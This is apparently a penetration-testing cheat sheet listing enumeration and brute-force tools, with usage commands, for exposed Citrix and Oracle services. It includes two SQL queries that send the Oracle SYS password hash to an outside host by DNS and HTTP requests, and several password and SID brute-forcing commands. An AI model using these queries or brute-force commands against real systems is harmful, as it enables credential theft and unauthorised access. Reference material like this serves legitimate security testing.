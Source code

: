 Citrix port 1494 open

    Citrix Enumeration
        Default Domain
        Published Applications
            ./citrix-pa-scan {IP_address/file | - | random} [timeout]
            citrix-pa-proxy.pl IP_to_proxy_to [Local_IP]
    Citrix Brute Force
        bforce.js
        connect.js
        Citrix Brute-forcer
        Reference Material
            Hacking Citrix - the legitimate backdoor
            Hacking Citrix - the forceful way

Oracle Port 1521 Open

    Oracle Enumeration
        oracsec
        Repscan
        Sidguess
        Scuba
        DNS/HTTP Enumeration
            SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL

            SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
        WinSID
        Oracle default password list
        TNSVer
            tnsver host [port]
        TCP Scan
        Oracle TNSLSNR
            Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
        TNSCmd
            perl tnscmd.pl -h ip_address
            perl tnscmd.pl version -h ip_address
            perl tnscmd.pl status -h ip_address
            perl tnscmd.pl -h ip_address --cmdsize (40 - 200)
        LSNrCheck
        Oracle Security Check (needs credentials)
        OAT
            sh opwg.sh -s ip_address
            opwg.bat -s ip_address
            sh oquery.sh -s ip_address -u username -p password -d SID OR c:\oquery -s ip_address -u username -p password -d SID
        OScanner
            sh oscanner.sh -s ip_address
            oscanner.exe -s ip_address
            sh reportviewer.sh oscanner_saved_file.xml
            reportviewer.exe oscanner_saved_file.xml
        NGS Squirrel for Oracle
        Service Register
            Service-register.exe ip_address
        PLSQL Scanner 2008
    Oracle Brute Force
        OAK
            ora-getsid hostname port sid_dictionary_list
            ora-auth-alter-session host port sid username password sql
            ora-brutesid host port start
            ora-pwdbrute host port sid username password-file
            ora-userenum host port sid userlistfile